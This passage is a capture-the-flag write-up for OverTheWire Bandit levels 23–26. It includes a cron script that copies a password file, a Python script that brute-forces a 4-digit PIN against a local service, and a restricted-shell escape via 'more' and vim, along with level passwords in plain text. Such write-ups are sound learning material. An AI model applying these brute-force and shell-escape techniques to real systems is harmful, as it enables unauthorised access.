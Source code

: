 ### Level 23 -> Level 24 
For this level, you have to make a simple script inside /var/spool/bandit24 directory 
- - -
```bash 
!#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/txt.txt
```
- - -
Then we need to make it executable using *chmod +x* after that our password will be in txt.txt file. 
**PASSWORD LEVEL 24 : UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

### Level 24 -> Level 25 
For this level, we need a brute forcing script to find the 4-digit pincode. 
- - -  
```python
#!/usr/bin/env python3
# coding: utf-8import sys
import socketpincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))
    
    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)

```
- - -
By making it executable and running it, we can retrieve the pincode.

**PASSWORD LEVEL 25 : uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**

### Level 25 -> Level 26 
Looking at the /etc/passwd file, the Bandit26 is running /usr/bin/showtext script as a shell. 
- - - 
```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
- - -
That means that we cannot actually run any command after logging in with the private key, So we need to find a vulnerability inside the script to use it and gain a shell. 
As mentioned in [SANS Article](https://www.sans.org/blog/escaping-restricted-linux-shells/), we can use more to run vim and then get the shell. 